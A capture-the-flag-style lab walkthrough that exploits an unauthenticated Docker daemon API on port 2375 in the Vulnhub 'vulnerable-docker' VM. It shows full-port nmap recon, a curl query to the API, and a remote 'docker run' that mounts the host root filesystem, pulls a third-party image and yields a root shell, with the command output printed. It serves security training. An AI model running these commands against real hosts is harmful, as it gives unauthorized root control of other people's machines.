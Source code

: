 # KBID 45 - Exposed docker daemon

## Exposed docker daemon over HTTP rest API

{% hint style="info" %}
First download the OVA to start on virtualbox [https://www.vulnhub.com/entry/vulnerable-docker-1,208/](https://www.vulnhub.com/entry/vulnerable-docker-1,208/)
{% endhint %}

> After downloading the image run it and start it in easy mode. After you have found the IP address of the machine than happy hacking!

By default, Docker runs through a non-networked UNIX socket. It can also optionally communicate using an HTTP socket, as is what we see with this vulnerable VM.

If you need Docker to be reachable through the network in a safe manner, you can enable TLS by specifying the tlsverify flag and pointing Docker’s tlscacert flag to a trusted CA certificate.

In the daemon mode, it only allows connections from clients authenticated by a certificate signed by that CA. In the client mode, it only connects to servers with a certificate signed by that CA.

However this is not the case for the following example, let's see if we can now gain control over the Docker host machine by exploiting this open Docker API.

**Recon**

A normal nmap scan does not find any interesting results:

```text
nmap -sT -sV <ip adress>

Nmap scan report for <ip adress>
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

However, when we start scanning the entire port range, here comes some interesting information:

```text
nmap -sT -sV -p- <ip adress>

Nmap scan report for <ip adress>
Host is up (0.10s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
2375/tcp open  docker  Docker 17.06.0-ce
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Now that we have found the port on which the Docker API is listening let's see if we can get some interesting information from there? We can either do a curl to the following endpoint, or simply put the following GET request in the browser to see the results.

```text
curl http://<ip adress>:2375/images/json
```

we now find information about all the current running images:

```text
[{
    "Containers": -1,
    "Created": 1501805621,
    "Id": "sha256:c4260b289fc788fd3f66a2a1bb0e7697b62511861626a39c7d0676b8909afc20",
    "Labels": {},
    "ParentId": "",
    "RepoDigests": ["wordpress@sha256:632c5f09a3de6fa711b208126bcef405e844a13f7cb38a83b0045043f4b1266f"],
    "RepoTags": ["wordpress:latest"],
    "SharedSize": -1,
    "Size": 405873668,
    "VirtualSize": 405873668
}, {
    "Containers": -1,
    "Created": 1501052770,
    "Id": "sha256:c73c7527c03a13729a6bba88a3251c95629e8036c0ccf17dadefb4c5f077a315",
    "Labels": {},
    "ParentId": "",
    "RepoDigests": ["mysql@sha256:96edf37370df96d2a4ee1715cc5c7820a0ec6286551a927981ed50f0273d9b43"],
    "RepoTags": ["mysql:5.7"],
    "SharedSize": -1,
    "Size": 412365478,
    "VirtualSize": 412365478
}, {
    "Containers": -1,
    "Created": 1492156751,
    "Id": "sha256:7d3ecb48134e41ac56003879ae8b0faa7e8931b927a3af28af82504434b9c9c4",
    "Labels": {},
    "ParentId": "",
    "RepoDigests": ["jeroenpeeters/docker-ssh@sha256:a1c8cefef3e2a7242970ef841acfcb9ead47355bc87a9c5c25627659e1c0b2b9"],
    "RepoTags": ["jeroenpeeters/docker-ssh:latest"],
    "SharedSize": -1,
    "Size": 43209635,
    "VirtualSize": 43209635
}]
```

Now let's see if we can make it more interesting. First i want to make my Docker client communicate with the remote Daemon API I do this by running the following command:

```text
alias dockerx="docker -H=<ip adress>:2375"
```

alternatively we could also use the docker engine SDK as described here:

```text
https://docs.docker.com/develop/sdk/examples/#run-a-container
```

Now, we first test that the alias works, we do this by simply running the following command:

```text
dockerx ps

CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                  NAMES
8f4bca8ef241        wordpress:latest           "docker-entrypoint.s…"   18 months ago       Up 2 hours          0.0.0.0:8000->80/tcp   content_wordpress_1
13f0a3bb2706        mysql:5.7                  "docker-entrypoint.s…"   18 months ago       Up 2 hours          3306/tcp               content_db_1
b90babce1037        jeroenpeeters/docker-ssh   "npm start"              18 months ago       Up 2 hours          22/tcp, 8022/tcp       content_ssh_1
```

#### exploitation

Now, we want to become root on the Docker host machine, we can achieve this by running a special container.

The command below is going to perform the privilege escalation and fetches a Docker image from the Docker Hub Registry and runs it. The -v parameter that you pass to Docker specifies that you want to create a volume in the Docker instance. The -i and -t parameters put Docker into ‘shell mode’ rather than starting a daemon process.

The instance is set up to mount the root filesystem of the host machine to the instance’s volume, so when the instance starts it immediately loads a chroot into that volume. This effectively gives you root on the machine.

There are many, many other ways to achieve this, but this was one of the most straightforward.

```text
dockerx run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Congratulations, we now are root on the Docker host machine!

